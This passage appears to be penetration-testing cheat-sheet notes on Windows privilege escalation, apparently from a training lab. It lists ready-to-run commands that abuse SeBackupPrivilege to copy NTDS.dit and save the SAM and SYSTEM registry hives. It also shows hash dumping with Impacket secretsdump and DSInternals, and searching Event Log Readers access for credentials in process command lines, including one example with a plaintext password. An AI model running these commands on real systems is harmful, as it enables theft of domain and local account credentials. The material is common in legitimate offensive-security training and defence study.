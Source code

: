 - Run Robocopy:
```cmd
robocopy /B E:\Windows\NTDS .\ntds ntds.dit
```

- Copying NTDS.dit Locally :
```powershell
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```

#SeBackupPrivilege :
**Extract local account credentials :** 

- Extracting Sytem and Sam : 
```cmd
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV
```

- Use Impacket : 
```sh
secretsdump.py -sam SAM.SAV -system SYSTEM.SAV LOCAL
```

**Extracting Credentials from NTDS.dit : **

- Download DSInternals :
```sh
wget https://github.com/MichaelGrafnetter/DSInternals/blob/master/Src/DSInternals.PowerShell/DSInternals.psd1
```

- Use DSInternals:
```powershell
Import-Module .\DSInternals.psd1
$key = Get-BootKey -SystemHivePath .\SYSTEM
Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key
```

- Use Impacket  :
```sh
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```

#### Event Log Readers
#Event_Log_Readers


 - Confirming Group Membership :
```cmd
net localgroup "Event Log Readers"
```

 - Searching Security Logs :
```shell
wevtutil qe Security /rd:true /f:text | Select-String "/user"
```

 - Searching Security Logs with Credential :
```sh
wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"
```
